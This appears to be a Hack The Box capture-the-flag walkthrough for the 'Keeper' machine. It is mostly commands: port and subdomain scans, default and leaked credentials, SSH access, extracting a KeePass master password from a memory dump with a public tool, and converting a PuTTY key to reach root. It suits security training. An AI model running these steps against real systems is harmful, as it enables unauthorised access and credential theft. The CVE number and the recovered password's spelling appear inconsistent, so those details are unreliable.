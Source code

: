 # 💎 HTB: Keeper - Command Notes

## 🔍 Recon

```bash
nmap -p- --min-rate 10000 10.10.11.227          # Full port scan
nmap -p 22,80 -sCV 10.10.11.227                 # Version and script scan
ffuf -u http://10.10.11.227 -H "Host: FUZZ.keeper.htb" \
     -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -ac -mc all
echo "10.10.11.227 keeper.htb tickets.keeper.htb" | sudo tee -a /etc/hosts
```

---

## 🔐 Request Tracker Access

```text
URL: http://tickets.keeper.htb/rt/
Username: root
Password: password
```

> Default credentials work. One support ticket reveals a KeePass memory dump.

---

## 🧑‍💻 Shell as lnorgaard

```bash
sshpass -p 'Welcome2023!' ssh lnorgaard@keeper.htb
cat user.txt
```

---

## 🧠 KeePass Dump Analysis

Files found:

```bash
scp lnorgaard@keeper.htb:/home/lnorgaard/RT30000.zip .
unzip RT30000.zip
# -> KeePassDumpFull.dmp (RAM dump)
# -> passcodes.kdbx (KeePass database)
```

---

## 📥 CVE-2022-32784 - KeePass Password Disclosure

**References:**

- [GitHub - vdohney/keepass-password-dumper](https://github.com/vdohney/keepass-password-dumper)

### 🪟 Windows (DotNet)

```powershell
git clone https://github.com/vdohney/keepass-password-dumper
cd keepass-password-dumper
dotnet run Z:\path\to\KeePassDumpFull.dmp
```

### 🐧 Linux (Docker workaround)

```bash
docker run --rm -it -v $(pwd):/data mcr.microsoft.com/dotnet/sdk:7.0.100
git clone https://github.com/vdohney/keepass-password-dumper
cd keepass-password-dumper
dotnet run /data/KeePassDumpFull.dmp
```

> Recovers: `●rødgrød med fløde`

---

## 🔓 KeePass Access

```bash
apt install kpcli
kpcli --kdb passcodes.kdbx
# Master password: rø dgrød med fløde
```

Useful credentials:

- **User:** root  
- **Notes:** PuTTY private key in legacy format

---

## 🔁 PuTTY to OpenSSH Key Conversion

```bash
apt install putty-tools
puttygen root-putty.key -O private-openssh -o keeper-root.key
chmod 600 keeper-root.key
```

---

## 🧑‍🚀 Root Access

```bash
ssh -i keeper-root.key root@keeper.htb
cat /root/root.txt
```